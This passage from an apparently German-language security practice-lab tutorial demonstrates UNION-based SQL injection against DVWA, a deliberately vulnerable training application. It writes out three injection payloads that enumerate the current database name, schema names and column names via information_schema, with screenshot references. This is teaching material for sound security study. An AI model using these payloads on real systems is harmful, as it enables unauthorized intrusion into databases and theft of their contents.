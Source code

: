 Letztlich ist dies nur eine vereinfachte "Demonstration" einer SQL-Injection auf einer bereits vorhandenen Seite, die darauf ausgelegt ist. Lass uns aber 2-3 Befehle davor testen, um einfach zu sehen, wie sie der `UNION`-Befehl verhält.

Mit `UNION-Based-Attacks` kann man eine Menge über Datenbank herausfinden.

Du willst wissen, wie die Datenbanken heißt, in der du dich gerade befindest?
Gib dazu einfach in das Eingabefeld folgenden Befehl ein:

```sql
test' UNION SELECT 1,database() FROM information_schema.tables #
```

Dann solltest du folgende Information vorliegen haben:

![UNION Based Attack Payload](/10-practice-labs/ressources/pictures/dvwa-sqli-9.png)

Mit nachfolgendem Befehl findest du heraus, wie die Datenbanktabellen in der Datenbank heißen:
```sql
test' UNION SELECT 1, group_concat(schema_name) FROM information_schema.schemata #
```

![UNION Based Attack Payload](/10-practice-labs/ressources/pictures/dvwa-sqli-10.png)


Der dritte Befehl zeigt dir, wie die Spaltennamen in den vorgefundenen Datebanktabellen heißen:
Gib dazu im Eingabfeld folgenden Befehl ein:

```sql
test' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns #
```

Jetzt solltest du folgendes erhalten:

![UNION Based Attack Payload](/10-practice-labs/ressources/pictures/dvwa-sqli-11.png)
